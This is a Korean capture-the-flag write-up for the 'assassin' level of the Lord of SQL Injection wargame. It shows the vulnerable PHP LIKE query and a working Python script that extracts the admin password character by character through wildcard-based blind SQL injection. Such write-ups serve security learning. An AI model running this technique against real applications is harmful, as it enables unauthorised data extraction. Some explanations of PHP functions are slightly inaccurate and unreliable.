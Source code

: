 # Lord of SQL Injection No.15 - assassin
## 문제 출제 의도
와일드 카드를 사용하여 원하는 값을 뽑아 올 수 있는지 확인한다.

## 소스 코드 분석
+ 소스 코드  
assassin의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("assassin"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - PHP
        * <?php 로 시작하여 ?>로 끝나는 것을 보아 PHP코드 라는 것을 알 수 있다.
    - include
        * 외부 php 코드를 불러와 사용한다.  
        * 따라서 뒤에 정의 하지 않은 함수 가 있다면 이는 외부 php 코드에서 온 것이라 추측 할 수 있다.
        ~~~
        login_chk();
        dbconnect();
        ~~~
        * 위 함수는 정의 한적 없는 함수이기에 외부 php 파일인 config.php에 정의된 함수라 추측 가능하다.
        * login_chk();는 로그인 여부를 확인 하는 함수라 추측 가능하다.
        * dbconnect();는 데이터베이스에 연결하는 함수라 추측이 가능하다.

    - preg_match()함수
        * preg_match 함수는 다음과 같은 형식을 취한다.
        ~~~
        preg_match("/탐색할 문자열/옵션,대상 문자열")
        ~~~
        1. 옵션 i = 대소문자를 구별하지 않는다.
        2. 옵션 g = 문자열을 끝까지 비교한다.
        3. 리턴 값으로 0, 1, FALSE를 갖는다. 이 함수는 매칭된 횟수를 리턴하는데 1번만 매칭시키기 때문에 0 또는 1이라는 값을 갖고, 오류가 날 경우에는 FALSE를 반환한다.
        * 따라서 GET방식으로 입력받은 pw값에 singel quote즉 단 따옴표가 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.

    - Query
        * prob_assassin이라는 데이터 베이스 테이블에서 id값을 뽑아온다. 단 그 레코드의 pw가 사용자가 입력한 pw와 일치하는 id 값만 가져온다.

    - mysql_fetch_array()함수
        ~~~
        array mysql_fetch_array ( resource $result [, int $result_type ] )
        ~~~
        * mysql_fetch_array함수는다음과 같은 형식을 취한다.
            1. result = mysql_query() 호출을 통한 결과
            2. result type = 인출될 배열의 형태를 결정하는 인자로 다음과 같은 상수가 올 수 있다 : MYSQL_ASSOC, MYSQL_NUM, MYSQL_BOTH이며 기본값은 MYSQL_BOTH이다.

        * 반환값 
            1. MYSQL_BOTH는 연관 색인과 숫자형 색인 모두 반환할 것이다. 
            2. MYSQL_ASSOC를 사용하면, mysql_fetch_assoc()처럼 연관된 인덱스 배열로 반환한다.
            3. MYSQL_NUM를 사용하면, mysql_fetch_row()처럼 숫자형 인덱스 배열로 반환한다.

    - 문제 풀이에 성공하는 조건
        * query를 통해 받아온 id 값에 0이 아닌 값이 들어있으면 "Hello + 'id'"가 출력된다.
        * query를 통해 받아온 id 값이 'admin'이면 문제풀이에 성공한다.

## 문제 해결
+ SQL injection
    - single quote 를 금지하고 pw 양쪽을 single quote 로 묶어 Injection 공격이 불가능하다
    - 따라서 Blind Sql 을 이용하여 비밀번호를 알아내야 한다.
+ 와일드 카드
    1. % =  ~%로 사용하면 ~까지 일치하는 문자열은 모두 해당된다. 즉 ~값만 같으면 %이후의 값은 중요하지 않다.
    2. _ = 해당하는 글자만큼의 와일드카드이다. "_"를 사용한 만큼의 문자만 적용된다.
+ 소스코드
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        buf=chr(0)
        for j in range(48, 91):
            url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
            data = "{}%".format(key+chr(j))
            print(data)
            # data = quote(data)

            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=3q0e1uadocute8g1nvp6u7l6k1")
            res = urllib.request.urlopen(re)
            result=str(res.read())

            if  result.find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                buf=str(1)
                break

            elif result.find("Hello guest") != -1:
                buf=chr(j).lower()

        if buf != str(1):
            key += buf
    print(key)
    ~~~
    - 따라서 다음과 같은 코드를 사용하면 pw=832edd10이된다.
    - 이를 GET방식으로 pw 에 입력하면 문제가 해결된다.